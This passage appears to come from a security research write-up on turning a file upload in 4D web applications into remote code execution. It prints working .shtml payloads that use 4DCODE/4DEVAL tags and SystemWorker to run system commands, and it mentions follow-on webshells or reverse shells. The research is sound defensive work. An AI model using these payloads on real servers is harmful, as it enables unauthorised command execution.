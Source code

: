 - In the case of an application using PHP, it would be possible to exploit this flaw by uploading a PHP file and use it (if its path is known and reachable) to execute commands on the victim system.
- On the other hand, it is possible that an application doesn't directly use the files that store its back-end code. For example, with a python application, uploading a file containing python code (normally) won't help us.

## 4D payload engineering
From what we've been able to test and read in the vendor's documentation, 4D doesn't use its server-side files "directly" (as PHP does). However, it seems
possible to use an **html** file that contains tags : https://developer.4d.com/docs/WebServer/templates.
More precisely, it is possible to **FORCE** the interpretation of these tags with a precise extension, : **SHTML**.

From what we could see in the first part of this adventure, interpreting arbitrary 4D tags can lead to remote code execution. More precisely,
we are going to use the combination of the `4DCODE`/`4DEVAL` tags, which can execute 4D server-side code, and the
[SystemWorker](https://developer.4d.com/docs/API/SystemWorkerClass) class, which can execute system commands
on the remote target.

:::note
There are other alternatives to the [SystemWorker](https://developer.4d.com/docs/API/SystemWorkerClass) class, like the
[LAUNCH EXTERNAL PROCESS](https://doc.4d.com/4Dv18/4D/18.4/LAUNCH-EXTERNAL-PROCESS.301-5233035.en.html) Primitive.
:::

For a specific command on a windows remote host, our payload will look like this
```
<!--#4DCODE
var $worker:4D.SystemWorker
var $result:Text
$worker:=4D.SystemWorker.new("<COMMAND>")
$result:=$worker.wait().response
-->
<!--#4DTEXT $result-->
```

Because we love when payloads are short, we can imagine a one liner using `4DEVAL`, which will display the content directly.
```
<!--#4DEVAL 4D.SystemWorker.new("<COMMAND>").wait().response -->
```

:::note
As the uploaded file displays the result of the executed command, the further exploitation of the machine can be done using
either a webshell or a reverse shell.
:::

## Let's Test it !
In order to build the functionnality that will receive the uploaded file, we can use the
[WEB GET BODY PART](https://doc.4d.com/4Dv18/4D/18.4/WEB-GET-BODY-PART.301-5232846.fe.html) primitive. This function
is recovering all the informations stored in the HTML's request body (parameter, name, file, filename, ...) into arrays.
